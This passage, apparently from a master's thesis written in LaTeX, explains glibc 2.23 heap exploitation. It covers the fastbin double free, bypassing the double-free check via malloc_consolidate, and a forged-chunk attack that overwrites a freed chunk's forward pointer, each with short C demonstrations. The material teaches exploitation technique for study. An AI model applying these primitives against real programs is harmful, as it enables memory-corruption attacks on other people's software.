 \documentclass{masterthesis}
\newcommand*\libc{glibc}
\newcommand*\fb{fast bins}
\newcommand*\ub{unsorted bins}
\newcommand*\mallocc{\lstinline{malloc}}
\newcommand*\Mallocc{\lstinline{Malloc}\xspace}
\begin{document}
\begin{lstlisting}[language=c,frame=tlrb]
free(a);
free(b);
free(a);
a = calloc(1, 8);
b = calloc(1, 8);
c = calloc(1, 8);
\end{lstlisting}

In the previous example, we used small chunk allocation. What is happen if we request a larger chunk? considering below example on \libc{-2.23}:

\begin{lstlisting}[language=c,frame=tlrb]
void* p1 = malloc(0x40);
void* p2 = malloc(0x40);
free(p1);
void* p3 = malloc(0x400);
free(p1);
\end{lstlisting}

The thirds \mallocc{} have a significant memory allocation; this allocation triggers another method call \lstinline{malloc_consolidate} automatically. \Mallocc{} In this situation, consolidate chunks in the fast bin before continuing, then put the resulting merged chunks on the \ub{}.
Such behavior is that we have another solution to bypass the fast bin double-free security check. It is possible to use \mallocc{} with a big size instead of free another chunk in the middle of two free. The third \mallocc{} moves chunk from fast bin to unsorted; as a result, when the second free request arrives, there is no chunk inside the \fb{}. We can implement a double-free attack. In the final layout, we have \lstinline{P1} on both \fb{} and \ub{}. Move \fb{} chunks to \ub{} by a big size memory allocation is a simple approach which uses by other attack methods too.

\section{Forged Chunk}
Freeing up a chunk does not prevent access to it because the pointer still exists in the application, so we can implement an attack on the heap data structure by controlling the pointer. Below code shows how we can return our forged chunk instead of a real heap chunk:

\begin{lstlisting}[language=c,frame=tlrb]
struct forged_chunk {
size_t prev_size;
size_t size;
struct forged_chunk *fd;
struct forged_chunk *bck;
char buf[10];  // padding
};
a = malloc(10);  // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk; // At address 0x7ffc6de96690
chunk.size = 0x20;
data = (char *)&chunk.fd;
strcpy(data, "attacker's data");

free(a); // Put the fast chunk back into fastbin

// Modify 'forward' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;

// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);   // Will return 0x219c010
victim = malloc(10);  // Points to 0x7ffc6de966a0
\end{lstlisting}
\end{document}
